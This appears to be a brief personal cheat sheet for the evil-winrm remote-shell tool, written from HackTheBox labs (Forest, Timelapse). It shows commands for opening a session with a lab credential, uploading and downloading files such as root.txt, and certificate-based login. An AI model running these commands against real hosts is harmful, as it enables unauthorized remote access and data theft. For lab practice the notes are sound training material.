 ## establish a session
```console
kali@kali:~$ evil-winrm -i 10.10.10.161 -u svc-alfresco' -p 's3rvice'
```
## upload and download file
```cmd
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /home/kimkhuongduy/Desktop/file.file C:\Users\svc-alfresco\Documents
*Evil-WinRM* PS C:\Users\Administrator\Documents> download C:\Users\svc-alfresco\Documents\root.txt
```
## login with **.crt** and **.key** files from **.pfx** file
*Timelapse - hackthebox*
```console
#-c option acts as a public key and -k a private key
kali@kali:~$ evil-winrm -i 10.10.11.152 -S -c crt.crt -k key.key -u -p
```
